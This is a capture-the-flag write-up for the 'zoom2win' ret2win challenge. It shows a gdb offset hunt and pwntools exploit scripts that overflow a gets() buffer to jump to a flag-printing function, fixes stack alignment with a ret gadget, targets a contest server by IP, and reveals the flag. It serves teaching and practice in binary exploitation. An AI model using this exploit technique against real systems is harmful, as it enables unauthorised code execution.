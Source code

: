 # zoom2win

by ZeroDayTea

what would CTFs be without our favorite ret2win (nc 143.198.184.186 5003)

## Challenge

In this challenge we were given an ELF-64bit named `zoom2win` with no canary, NX enabled, and no PIE.

```
$ file zoom2win; checksec zoom2win 
zoom2win: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=f4a85541e0d661960a7b05ed51b3513d58e85a5a, for GNU/Linux 3.2.0, not stripped
[*] '/home/kali/Documents/killerqueen/zoom2win'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Let's try to run it

```
./zoom2win                       
Let's not overcomplicate. Just zoom2win :)
chicken nugget

```

It seems that the program doesn't do anything. Let's open the program using ida to see what the source code looks like.

#### main function
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rbp
  __int64 v5; // [rsp-28h] [rbp-28h]
  __int64 v6; // [rsp-8h] [rbp-8h]

  __asm { endbr64 }
  v6 = v3;
  sub_401070("Let's not overcomplicate. Just zoom2win :)", argv, envp);
  return sub_401090(&v5);
}
```

From the source code, there is another function that caught my eyes. It's `flag` function. Let's take a look.

#### flag
```c
__int64 flag()
{
  __asm { endbr64 }
  return sub_401080("cat flag.txt");
}
```

From the main function, it seems that we need to overflow the input and jump into the `flag` function.

First, we could use gdb to create a pattern.
```
$ gdb -q ./zoom2win    
Reading symbols from ./zoom2win...
(No debugging symbols found in ./zoom2win)
gdb-peda$ pattern create 80
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4A'
```

Next, run the program and send the pattern.
```
gdb-peda$ r
Starting program: /home/kali/Documents/killerqueen/zoom2win 
Let's not overcomplicate. Just zoom2win :)
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4A

Program received signal SIGSEGV, Segmentation fault.
```

From the output above, we can determine which part of our pattern is hitting the return in main function by examining the `$rsp`.
```
gdb-peda$ x/gx $rsp
0x7fffffffdf48: 0x4141464141304141
gdb-peda$ pattern offset 0x4141464141304141
4702116732032008513 found at offset: 40
```

Nice, we got the offset/padding. Now we need to know the address of `flag` function.
```
gdb-peda$ info func
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401070  puts@plt
0x0000000000401080  system@plt
0x0000000000401090  gets@plt
0x00000000004010a0  setvbuf@plt
0x00000000004010b0  _start
0x00000000004010e0  _dl_relocate_static_pie
0x00000000004010f0  deregister_tm_clones
0x0000000000401120  register_tm_clones
0x0000000000401160  __do_global_dtors_aux
0x0000000000401190  frame_dummy
0x0000000000401196  flag
0x00000000004011b2  main
0x00000000004011de  bufinit
0x0000000000401250  __libc_csu_init
0x00000000004012c0  __libc_csu_fini
0x00000000004012c8  _fini
```

Let's make a solver using python
```python
from pwn import *

padding = 40 # offset from the input to return
flag = 0x0000000000401196 # flag address

s = process("./zoom2win")

payload = b""
payload += b"A"*padding
payload += p64(flag)

print(s.recvline())
s.sendline(payload)
print(s.recvall())

s.close()
```

Now we need to do is just run the program to make sure it works!
![](zoom2win-local.png)

Since it works, lets test on remote server by adding host, port and replacing `s = process("./zoom2win")` to `s = remote(host, port)`
```python
from pwn import *

padding = 40
ret_main = 0x00000000004011dd
flag = 0x0000000000401196

host = "143.198.184.186"
port = 5003

# s = process("./zoom2win")
s = remote(host, port)

payload = b""
payload += b"A"*padding
payload += p64(flag)

print(s.recvline())
s.sendline(payload)
print(s.recvall())

s.close()
```

Now all we need to do is just run the program!
![](zoom2win-serverTry.png)

But sadly we didn't get the flag :(

After some research, it seems the problem is stack alignment (Reference: [Buffer overflow stack alignment](https://youtu.be/vqNQe9xjz2Q)). From the youtube video, all that we need is just the address of return in main function and add it before add the address of flag into the payload.

```python
from pwn import *

padding = 40
ret_main = 0x00000000004011dd
flag = 0x0000000000401196

host = "143.198.184.186"
port = 5003

# s = process("./zoom2win")
s = remote(host, port)

payload = b""
payload += b"A"*padding
payload += p64(ret_main)
payload += p64(flag)

print(s.recvline())
s.sendline(payload)
print(s.recvall())

s.close()
```

Now let's run the program again :D
![](zoom2win.png)

Flag: `kqctf{did_you_zoom_the_basic_buffer_overflow_?}`
